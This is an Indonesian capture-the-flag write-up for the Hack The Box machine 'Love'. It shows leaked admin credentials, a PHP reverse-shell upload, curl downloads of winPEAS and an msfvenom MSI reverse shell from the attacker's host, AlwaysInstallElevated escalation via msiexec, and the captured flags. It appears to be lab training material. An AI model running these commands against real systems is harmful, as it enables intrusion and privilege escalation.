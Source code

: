 # LOVE

hasil nmap ada domain staging.love.htb, tambahkan domain tersebtu ke /etc/hosts dan buka. Pada /demo kita coba melihat beberapa port yang tadi forbidden. kita buka 127.0.0.1:5000 dan dapat credential :

```
admin
@LoveIsInTheAir!!!! 
```

Dilanjutkan login ke 10.10.10.239/admin menggunakan credential tersebut. Dapat referensi dari sini https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified . kita pake yang mini shell ganti ip dan port upload pada update profile dan mendapatkan shell. Dari sini flag user terdapat di C:\Users\Phoebe\Desktop> : 6f93ef7a872ff11fc9eb32fe12c6d7d1

lalu kita pake curl untuk mentransfer `curl http://10.10.16.29:8000/winPEASx64.exe -o winpeas.exe -s` kemudian kita jalankan winpeas.exe dengan mengetik winpeas.exe di cmd. 

```log
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

riset mengenai always install elevated dan jalankan `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4422 -f msi > elevated.msi` lalu download dari sisi server dgn command `curl http://10.10.16.29:8001/elevated.msi -o elev1.msi -s` kemudian eksekusi `msiexec /quiet /qn /i elev1.msi` di server dan kita sudah dapat reverse shell. 

Dapat flag root : 4e3dd3a324377d14ca91d6af9f950170